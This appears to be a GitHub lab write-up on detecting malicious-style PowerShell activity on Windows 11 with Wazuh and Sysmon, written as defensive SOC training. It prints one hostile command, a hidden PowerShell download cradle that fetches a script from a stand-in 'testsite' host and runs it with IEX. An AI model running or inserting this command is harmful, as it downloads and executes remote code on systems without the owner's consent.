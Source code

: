 # Wazuh Lab: Detecting Suspicious PowerShell Activity

## Objective
Simulate malicious PowerShell behavior on a Windows 11 machine and detect it using Wazuh SIEM and Sysmon logs.

## Environment
- **SIEM**: Wazuh Server (Ubuntu, Proxmox VM)
- **Endpoint**: Windows 11 (joined to domain, Wazuh agent + Sysmon)
- **Attacker Simulation**: User context (non-admin)

## Simulated Activity
Executed a suspicious PowerShell command mimicking malware behavior:

```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://testsite/malicious.ps1')"
```

## Detection
Sysmon Logs:
Event ID 1: Process creation detected for powershell.exe

Logged command-line arguments including IEX and DownloadString

## Wazuh Alerts:
Alert level 15 triggered

Message: "Executable file dropped in folder commonly used by malware"

## Screenshots
Suspicious PowerShell Command	Sysmon Log	Wazuh Alert

## Key Takeaways
- Sysmon provides deep visibility into process creation, command-line usage, and network activity.

- Wazuh effectively correlates endpoint activity to detect high-risk behavior like encoded or stealth PowerShell usage.

- Even without actual malware, simulated behavior alone can trigger detection—essential in SOC analysis and threat hunting.
